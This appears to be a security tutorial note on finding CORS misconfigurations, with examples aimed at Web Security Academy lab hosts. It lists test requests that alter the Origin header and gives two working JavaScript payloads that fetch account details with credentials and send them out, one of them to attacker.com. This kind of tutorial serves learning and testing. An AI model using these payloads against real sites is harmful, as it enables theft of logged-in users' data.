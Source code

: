 **CORS Scenario**

![Screenshot From 2025-03-17 23-57-08](https://github.com/user-attachments/assets/96c5cf0f-9fc0-45a8-b364-776097cceb5c)

These headers state that access is allowed from the requesting domain `(malicious-website.com)` and that the cross-origin requests can include cookies `(Access-Control-Allow-Credentials: true)` and so will be processed in-session.

### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
**Demo Payload For Null Case**
```javascript
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://attacker.com/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

---
